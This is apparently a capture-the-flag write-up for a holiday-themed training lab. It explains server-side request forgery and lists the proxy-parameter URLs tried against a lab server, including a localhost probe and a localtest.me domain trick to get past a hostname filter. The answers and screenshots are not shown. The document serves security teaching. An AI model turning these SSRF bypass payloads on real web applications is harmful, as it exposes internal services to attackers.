 # The Naughty or Nice List

## Video

{% embed url="https://www.youtube.com/watch?v=XgJ\_6xdspKM" %}

## Resources

### Server-Side Request Forgery

Server-Side Request Forgery \(SSRF\) is a web app vulnerability that allows attackers to force the web application server to make requests to resources it normally wouldn't. For example, a web app may have the functionality to produce screenshots of other websites when a user supplies a URL. This is perfectly valid functionality, however, URLs can also be made for internal IP addresses \(e.g. 192.168.1.1, 10.10.10.10, 127.0.0.1 etc.\) as well as internal-only hostnames \(e.g. localhost, WIN2019SERV.CORP\). If a web developer is not careful, an attacker could provide the app with these and manage to screenshot internal resources, which often have less protections.

To counter this, user-provided URLs can be checked before they are requested, to ensure that malicious values are not being used. However, due to the complex nature of URLs themselves, there are often many things an attacker can do to bypass these checks.

Note that while the example of SSRF used in this task is effectively a Remote File Inclusion \(RFI\) vulnerability as well, not every SSRF is. Some SSRF vulnerabilities only trigger a DNS lookup, while others may not return any kind of response to the web app, but can still be used to "port scan" internal systems by measuring the time each request takes to complete. In other cases, SSRF may be used as a form of Denial of Service \(DoS\) since the attacker can continually request that the server download large files simultaneously \(taking up memory, disk space, and network bandwidth\).

## Challenge

### What is Santa's password?

![](../.gitbook/assets/image%20%28150%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DShell5

{% embed url="https://meyerweb.com/eric/tools/dencoder/" %}

![](../.gitbook/assets/image%20%28162%29.png)

> http://10.10.129.132/?proxy=http://list.hohoho:8080/search.php?name=Shell5

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F

![](../.gitbook/assets/image%20%28173%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28191%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28138%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flocalhost

![](../.gitbook/assets/image%20%28137%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho.localtest.me

![](../.gitbook/assets/image%20%28177%29.png)

![](../.gitbook/assets/image%20%28174%29.png)

{% hint style="success" %}

{% endhint %}

### What is the challenge flag?

{% hint style="success" %}

{% endhint %}

